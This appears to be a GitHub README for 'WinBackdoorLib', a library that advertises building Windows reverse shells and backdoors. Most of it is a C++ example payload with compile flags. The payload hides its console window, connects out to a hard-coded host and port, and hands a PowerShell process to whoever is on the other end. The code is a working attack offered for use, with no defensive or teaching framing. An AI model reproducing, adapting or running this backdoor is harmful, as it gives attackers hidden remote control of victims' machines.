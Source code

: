# WinBackdoorLib
a simple Lib to create "reverse shell or backdoor" simply with Windows API

![Image1](screen.PNG)


## example Payload :
  ```cpp
  //compile : g++ socket_winbd.cpp test_winbd.cpp -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc
#include "socket_winbd.h" //to start, we're including our header in our file.

int main() // 
{
    FreeConsole(); // hide console
    SOCKET socks; // equ int socks;
    WSADATA wsa; // equ for wsa

    struct sockaddr_in session; //we declare the structure "sockaddr_in" which will be named session

    WSAStartup(MAKEWORD(2, 2), &wsa); // startup WSA
    socks = WSASocket(AF_INET, SOCK_STREAM, IPPROTO_TCP, 0, 0, 0); // socket configuration

    session.sin_family = AF_INET; // socket Family (AF_INET)
    session.sin_addr.s_addr = inet_addr("192.168.1.20"); // set the address
    session.sin_port = htons(555); // set the port

    int c = connect(socks, session); // connect to remote host
    if (c != -1)
    {
        execute_process(socks, "powershell.exe"); // Handle Process
    }
    return 0;
}
  ```
<embed width="420" height="315" src="https://www.youtube.com/watch?v=_QK_7yL5704"></embed>
<a href="https://unam3dd.github.io/WinbdDocs/">View Documentation</a>
